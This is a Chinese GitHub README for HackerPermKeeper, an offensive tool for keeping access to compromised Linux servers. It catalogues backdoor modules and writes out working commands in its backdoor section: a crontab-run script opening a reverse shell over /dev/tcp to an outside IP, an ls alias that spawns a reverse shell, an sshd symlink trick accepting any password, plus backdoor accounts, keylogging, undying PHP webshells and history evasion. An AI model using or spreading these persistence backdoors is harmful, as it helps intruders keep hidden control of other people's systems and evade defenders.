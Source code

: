 # :lock:	HackerPermKeeper  
### 黑客权限保持者

              _    _            _             _____                    _  __                         
             | |  | |          | |           |  __ \                  | |/ /                         
             | |__| | __ _  ___| | _____ _ __| |__) |__ _ __ _ __ ___ | ' / ___  ___ _ __   ___ _ __ 
             |  __  |/ _` |/ __| |/ / _ \ '__|  ___/ _ \ '__| '_ ` _ \|  < / _ \/ _ \ '_ \ / _ \ '__|
             | |  | | (_| | (__|   <  __/ |  | |  |  __/ |  | | | | | | . \  __/  __/ |_) |  __/ |   
             |_|  |_|\__,_|\___|_|\_\___|_|  |_|   \___|_|  |_| |_| |_|_|\_\___|\___| .__/ \___|_|   
                                                                                    | |              
                                                                                    |_|        
<br/>
  <p align="center">
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-www.taoyuan.cool-blue" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/RuoJi6/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
    <a href="https://flowus.cn/share/3505271f-a987-4fb1-9623-efe58dcc77ec">
     <img src="https://img.shields.io/badge/%E6%96%87%E5%BA%93-wiki-yellow">
    </a>
</p>
<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
由于新版本危害较大，BT功能只供内部使用
<br/><br/>


## 🚀上手指南

📢 请务必花一点时间阅读此文档，有助于你快速熟悉HackerPermKeeper
<br/><br/>

<details>
<summary><b>:lock:支持系统列表</b></summary>

| :lock:权限维持模块                      | centos             | Ubuntu             | 推荐指数                                             | 需要权限     | 备注                                                         | py2                | py3                |
| :-------------------------------------- | ------------------ | ------------------ | ---------------------------------------------------- | ------------ | ------------------------------------------------------------ | ------------------ | ------------------ |
| OpenSSH后门万能密码&记录密码            | :x:                | :heavy_check_mark: | :star:                                               | root         | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :heavy_check_mark: |
| PAM后门                                 | :x:                | :x:                | :star:                                               | :x:          | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :x:                |
| ssh软链接                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                             | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | User         | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:                           | root         | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | User or root | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                              | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门[检测]                       | :x:                | :x:                | :star:	:star:	:star:                           | root         | 难以发现，但是安装复杂，而且指定内核版本                     | :x:                | :x:                |
| 临时history不记录命令 or 永久不记录命令 | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star::star::star::star:         | root         | 有的服务器设置了空格记录执行命令，执行这个脚本快速设置不记录空格命令 | :heavy_check_mark: | :heavy_check_mark: |
| ssh软链接&crontab                       | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 快速生成软链接，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| check.py                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star::star:     | User         | 快速检测目标机器可以使用那个权限维持模块，并且检测当前机器处于docker还是k8s，并检测docker逃逸 | :heavy_check_mark: | :heavy_check_mark: |
| sshkey密钥&crontab                      | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | 快速生成ssh密钥，并且执行计划任务，每分钟判断当前密钥和多个文件是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| php权限维持不死免杀马                   | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | phpweb权限维持马                                             | :heavy_check_mark: | :heavy_check_mark: |
| Suid shell bash                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | root         | Suid shell bash脚本(低权限用户运行),可以和webshell进行联动一个低权限用户只需要执行一个文件就可以获取高权限 | :heavy_check_mark: | :heavy_check_mark: |
| BT面板后渗透[bt_Tools_v7.0]内部版                   | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | root         | BT面板后渗透【bt_Tools_v7.0】内部版                  | :heavy_check_mark: | :heavy_check_mark: |

![BT渗透](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/7b36e73b-005f-44e7-9cba-e3d31fd3021d)


</details>


<details>
<summary><b>:closed_lock_with_key:权限的划分</b></summary>

| UID    | 数值                                                        | 比如：       |
| ------ | ----------------------------------------------------------- | ------------ |
| 0      | 超级管理员（root用户）                                      | root         |
| 1～999 | Linux系统将一些服务程序和系统任务分配给独立的系统用户来运行 | bin          |
| 1000   | 普通用户UID从1000开始                                       | www-data,www |

</details>

<details>
<summary><b>🐍安装要求</b></summary>
  
```
python3运行此项目[我自己的环境是Python 3.9.7]，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
  
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/917d5afc-1775-4bcc-82d0-c9adb7cf89b7)

```
测试是否正常运行
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/d4c4b282-6570-4b3e-ba97-d27e7eaef42b)



</details>

<details>
<summary><b>✨使用演示</b></summary>

```
查看帮助
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/b2216e6b-c07c-4ee6-9768-3da79c6d9932)



```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
python3 check.py
python2 check.py
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/09fd1694-c90a-49da-a9c9-47e7745463d2)




```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/a15340cc-6586-4541-9345-55ef3a8873a8)



```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/59a86236-1e03-4ea9-8b48-d14d57451317)


```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块[6.0更新之后，可以连续选择]
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/2cb4a5a6-76e7-4da5-8000-b8d080070914)

```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8e9c3c6e-21a3-4a14-adc3-632f08da434a)


使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/
</details>

<details>
<summary><b>:triangular_flag_on_post:	常见后门介绍</b></summary>

```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


history不记录执行命令
在输入命令时候，添加空格

ssh软链接&crontab
快速生成软链接[需要运行脚本成功后，一分钟连接]，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行

|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```

</details>


<details>
<summary><b>:warning:常见错误error</b></summary>

```
1、
使用ssh密钥后门连接的时候，出现这个错误，就是当前ip有在known_hosts中存在多个主机文件
解决：ssh-keygen -f "known_hosts文件" -R "目标Ip"
或者使用另外一台机器连接
```
![TON3EA2_MQW`94HRK53GZTQ](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/93dad03b-af7c-4e62-9dc8-87722504ce10)
删除成功
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/3342097e-b280-4b68-b90b-788a2de5cca6)

```
2、
下载的ssh密钥连接的时候出现安全性错误
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/76dfafe5-22a7-4698-b08e-fd5857a15641)
解决：修改权限 chmod 600 密钥文件，然后在连接
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8d9262ac-1555-466d-8ed7-197fb9521d43)

</details>

<details>
<summary><b>:zap:提交问题</b></summary>
有问题请提交issues<br/>
<a href="https://github.com/RuoJi6/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
</details>

<br/>

## :world_map:版本更新
```
1.0 权限维持
----------------------------------------------------------------------------------------------------------
2.0 1、利用成功之后删除文件
    2、命令配合使用[软链接+计划任务]
    3、判断当前系统有没有python环境
    4、使用ssh密钥的时候，在对方服务器生成的时候，生成完成之后，删除文件id_ed25519.pub和id_ed25519
    5、设置全局环境变量不记录空格命令[history]
    6、修改在不同环境下，main.py运行bug
    7、修复计划任务，在反弹shell的时候，出现的python版本问题
    8、ssh密钥权限维持模块，bug修复，如果是出现不是root，权限也可以成功
    9、修复check.py脚本检测普通用户权限
----------------------------------------------------------------------------------------------------------
3.0 1、php web权限维持马[首页马，加密马内存马，不死马]
    2、模块配合使用[添加用户加计划任务，ssh密钥加计划任务]
    3、在计划任务配合使用的时候，发现还需要判断文件有没有加锁
----------------------------------------------------------------------------------------------------------
4.0 1、修改ssh密钥以及添加用户中重新运行时候，检测是否加锁解锁操作
----------------------------------------------------------------------------------------------------------
5.0 1、检测docker，k8s环境
    2、检测docker逃逸，特权逃逸，Docker Socket逃逸，docker procfs逃逸[以后会添加针对k8s横向以及逃逸]
    3、别名权限维持文件不存在bug修复
    4、修复检测脚本bug
----------------------------------------------------------------------------------------------------------
6.0 1、Suid shell bash权限维持
    2、重写生成代码(连续生成)
    3、添加不记录历史命令临时操作，同时可以批量删除指定的.bash_history文件中的历史记录
    4、修改检查脚本(添加检查环境)
    5、使用tabulate模块进行格式化输出
```


<br/>

## :beginner:开发日志
<a href="https://flowus.cn/ruoji/share/57079f81-d391-478e-88c8-329c93371723">点击跳转</a>

<br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)


## Stargazers

[![Stargazers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/stars/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/stargazers)


## Forkers

[![Forkers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/forks/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/network/members)


<a href="https://github.com/RuoJi6">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/RuoJi6/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>

